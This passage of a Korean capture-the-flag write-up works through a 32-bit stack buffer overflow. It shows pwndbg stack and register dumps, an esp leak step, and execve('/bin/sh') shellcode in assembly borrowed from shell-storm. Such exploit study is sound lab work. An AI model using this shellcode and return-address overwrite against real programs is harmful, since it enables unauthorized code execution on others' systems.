 ```
0xffffd244:	0xffffda9a	0xffffdaa8	0xffffdab3	0xffffdadc
0xffffd254:	0xffffdaed	0xffffdaf7	0xffffdb0e	0xffffdb20
0xffffd264:	0xffffdb41	0xffffdb97
```

`read` 호출 후
```
pwndbg> x/30wx $esp
0xffffd1f4:	0x41414141	0x41414141	0x41414141	0x41414141
0xffffd204:	0x41414141	0x42424242	0xffffd20a	0x00000001
0xffffd214:	0xffffd3c1	0x00000000	0xffffd3e3	0xffffd3f9
0xffffd224:	0xffffd9e5	0xffffda07	0xffffda1e	0xffffda2d
0xffffd234:	0xffffda3e	0xffffda49	0xffffda66	0xffffda86
0xffffd244:	0xffffda9a	0xffffdaa8	0xffffdab3	0xffffdadc
0xffffd254:	0xffffdaed	0xffffdaf7	0xffffdb0e	0xffffdb20
0xffffd264:	0xffffdb41	0xffffdb97
```

따라서 `dummy 20 Bytes` `return_addr` `shellcode`로 입력데이터를 구성해서 보내려고 합니다.  
이때, `return_addr`를 알기 위해서는 `esp`값을 알아야 합니다. `esp`값을 `leak`해서 `shellcode`주소를 `return_addr`에 넣어주어야 하는데요.    

쉘코드는 아래와 같이 했습니다. [여기 참고했어요!](http://shell-storm.org/shellcode/files/shellcode-827.php) 
```
xor   eax, eax
push  eax
push  0x68732f2f    # //sh -> hs//
push  0x6e69622f    # /bin -> nib/
mov   ebx, esp      # esp  -> "/bin/sh"
push  eax           
push  ebx           
mov   ecx, esp      # ecx -> argv
mov   edx, eax      # edx = NULL
mov   al, 0xb       # execve syscall number = 11
int   0x80
```
  
저는 메모리 leak 하는 부분이 헷갈려서 [이 블로그](https://34t3rnull.tistory.com/56)를 참고했어요!
```
pwndbg> 
0x0804809c in _start ()
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
─────────────────────────────────────────────[ REGISTERS ]──────────────────────────────────────────────
 EAX  0x19
 EBX  0x0
 ECX  0xffffd1f4 ◂— 0x41414141 ('AAAA')
 EDX  0x3c
 EDI  0x0
 ESI  0x0
 EBP  0x0
*ESP  0xffffd208 —▸ 0x8048087 (_start+39) ◂— mov    ecx, esp
*EIP  0x804809c (_start+60) ◂— ret    
───────────────────────────────────────────────[ DISASM ]───────────────────────────────────────────────
   0x8048091 <_start+49>    xor    ebx, ebx
   0x8048093 <_start+51>    mov    dl, 0x3c
   0x8048095 <_start+53>    mov    al, 3
   0x8048097 <_start+55>    int    0x80
   0x8048099 <_start+57>    add    esp, 0x14
 ► 0x804809c <_start+60>    ret             <0x8048087; _start+39>
    ↓
   0x8048087 <_start+39>    mov    ecx, esp
   0x8048089 <_start+41>    mov    dl, 0x14
   0x804808b <_start+43>    mov    bl, 1
   0x804808d <_start+45>    mov    al, 4
```